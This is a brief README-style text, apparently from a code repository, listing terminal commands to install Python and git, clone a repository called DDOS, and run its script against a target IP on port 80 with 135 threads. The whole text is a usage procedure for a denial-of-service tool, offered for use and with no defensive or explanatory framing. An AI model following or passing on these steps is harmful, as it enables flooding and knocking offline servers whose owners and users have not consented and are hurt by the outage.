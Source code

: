 $apt update && apt upgrade 

$pkg install python

$pkg install python2

$pkg install git

$git clone https://github.com/MuhammadZalim97/DDOS

$cd DDOS

$python3 win.32.64.NT.py -s ip target -p 80 -t 135
 
